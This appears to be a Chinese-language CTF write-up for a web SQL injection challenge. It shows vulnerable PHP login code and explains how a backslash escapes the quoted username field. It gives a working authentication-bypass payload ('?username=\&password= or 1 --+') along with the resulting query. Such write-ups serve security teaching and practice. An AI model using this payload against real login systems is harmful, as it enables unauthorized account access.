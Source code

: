 SQL Injection

Web 35pt

---

继续注入吧！ TIP:反斜杠可以用来转义 仔细查看相关函数的用法



```javascript
<?php
#GOAL: login as admin,then get the flag;
error_reporting(0);
//require 'db.inc.php';

function clean($str){
   if(get_magic_quotes_gpc()){
      $str=stripslashes($str);
   }
   return htmlentities($str, ENT_QUOTES);
}

$username = @clean((string)$_GET['username']);
$password = @clean((string)$_GET['password']);

//$query='SELECT * FROM users WHERE name=\''.$username.'\' AND pass=\''.$password.'\';';

//利用点如何让'逃过htmlentities的html
$query='SELECT * FROM users WHERE name=\''.$username.'\' AND pass=\''.$password.'\';';
$result=mysql_query($query);
if(!$result || mysql_num_rows($result) < 1){
   die('Invalid password!');
}

echo $flag;
```



这个题并不是单引号逃逸，htmlentities使‘单引号无法使用，所以我们要构造，不使用单引号的sql语句。

欺骗点：

```javascript
//这个函数并没有执行
if(get_magic_quotes_gpc()){
      $str=stripslashes($str);
   }
   //无法单引号逃逸
   htmlentities($str, ENT_QUOTES);
   //一堆花里胡哨的\'都只是障眼法
   $query='SELECT * FROM users WHERE name=\''.$username.'\' AND pass=\''.$password.'\';';
```





payload:

```javascript
?username=\&password= or 1 --+

//sql语句变成了这样
SELECT * FROM users WHERE name='\'AND pass=' or 1 --+';

此时name='AND pass'  为flase
or 1                为true

flase or true        为true
所以此时整个where 后面的值都为 true
```

